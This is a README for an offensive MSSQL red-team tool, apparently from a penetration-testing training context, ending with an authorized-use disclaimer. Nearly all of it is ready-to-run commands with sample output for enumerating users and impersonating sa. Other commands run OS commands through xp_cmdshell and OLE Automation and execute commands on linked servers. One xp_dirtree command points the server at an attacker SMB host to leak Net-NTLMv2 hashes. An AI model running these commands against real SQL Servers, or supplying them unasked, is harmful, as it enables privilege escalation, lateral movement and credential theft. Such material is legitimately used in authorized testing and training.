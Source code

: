 # **MSSQL Custom Red Team Tool**

## **Overview**
The **MSSQL Custom Red Team Tool** is a command-line utility designed for security assessments and penetration testing of Microsoft SQL Server environments. It enables testers to perform **SQL enumeration, impersonation, command execution, and linked server attacks** using various MSSQL techniques.

This tool supports **SQL authentication bypass techniques** such as `xp_cmdshell`, `sp_oacreate` (OLE Automation), and **linked server exploitation**.

---

## **Features**
- **SQL User Enumeration** (`-enum`): Lists the current user and role membership.
- **Impersonation Attacks** (`-impersonate <user>`): Switch execution context to another user.
- **List Impersonatable Users** (`-list-impersonate`): Identify users that can be impersonated.
- **Command Execution via xp_cmdshell** (`-executexpcmd <command>`): Execute system commands via SQL Server.
- **Command Execution via OLE Automation** (`-executeole <command>`): Execute system commands using `sp_oacreate`.
- **Linked Server Enumeration** (`-list-linkedservers`): List available linked servers.
- **Linked Server Command Execution** (`-linked-server <server> <command>`): Execute commands on linked servers.
- **Triggering UNC Path Exposure via xp_dirtree** (`-xp-dirtree <UNC path>`): Exploit **Net-NTLM Hash Leaks**.

---

## **Usage**
### **Basic Authentication**
To run the tool, specify **SQL Server and Database**:
```sh
SQLTool.exe -server <SQL Server> -database <Database>
```
Example:
```sh
SQLTool.exe -server dc01.corp1.com -database master
```
If authentication is successful, the tool allows further command execution.

---

## **Available Commands**
### **1️⃣ Enumeration**
- **Enumerate SQL Users and Roles**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -enum
  ```
  **Example Output:**
  ```
  Logged in as: corp1\SQLSvc
  Public role membership status: 1
  ```

### **2️⃣ Impersonation**
- **List Users That Can Be Impersonated**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -list-impersonate
  ```
  **Example Output:**
  ```
  Users that can be impersonated:
   - sa
   - securityadmin
  ```

- **Impersonate Another User**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -impersonate sa
  ```
  **Example Output:**
  ```
  Attempting to impersonate: sa
  Current user after impersonation: sa
  ```

---

### **3️⃣ Command Execution**
#### **Execute Commands via `xp_cmdshell`**
- **Run `whoami` using `xp_cmdshell`**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -executexpcmd "whoami"
  ```
  **Example Output:**
  ```
  Enabling and executing xp_cmdshell: whoami
  Command output:
  corp1\SQLSvc
  ```

- **Run `ipconfig` using `xp_cmdshell`**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -executexpcmd "ipconfig"
  ```

#### **Execute Commands via `sp_oacreate` (OLE Automation)**
- **Run `whoami` using `sp_oacreate`**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -executeole "whoami"
  ```
  **Example Output:**
  ```
  Enabling and executing OLE Automation Procedures: whoami
  Command executed via OLE Automation: whoami
  ```

- **Run `ipconfig` using `sp_oacreate`**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -executeole "ipconfig"
  ```

---

### **4️⃣ Linked Server Exploitation**
- **List Available Linked Servers**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -list-linkedservers
  ```
  **Example Output:**
  ```
  Available Linked Servers:
   - APPSRV01
   - FILESRV02
  ```

- **Execute a Command on a Linked Server**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -linked-server APPSRV01 "whoami"
  ```
  **Example Output:**
  ```
  Executing commands on linked server: APPSRV01...
  Command output from APPSRV01 (whoami):
  corp1\SQLSvc
  ```

---

### **5️⃣ Hash Extraction via `xp_dirtree`**
- **Trigger SMB Hash Leak Using `xp_dirtree`**
  ```sh
  SQLTool.exe -server dc01.corp1.com -database master -xp-dirtree "\\192.168.45.189\test"
  ```
  This technique forces the SQL Server to attempt SMB authentication to a rogue server, allowing an attacker to capture **Net-NTLMv2 hashes** for offline cracking.

---

## **Installation**
1. **Compile the Code**
   - Open the project in **Visual Studio**.
   - Set the build mode to **Release**.
   - Click **Build** → **Build Solution**.

2. **Run the Executable**
   - The compiled executable will be in:
     ```
     bin\x64\Debug\SQLTool.exe
     ```
   - Execute commands as needed.

---

## **How It Works**
This tool:
✅ **Connects to a SQL Server instance.**  
✅ **Authenticates using Windows Integrated Security.**  
✅ **Executes various SQL and OS commands via SQL Server.**  
✅ **Supports impersonation for privilege escalation.**  
✅ **Performs lateral movement via linked servers.**  

---

## **Disclaimer**
This tool is intended for **legal penetration testing, security assessments, and red team operations**.  
**Unauthorized use against systems without explicit permission is illegal and punishable by law.**  

**Happy Hacking! 🚀**

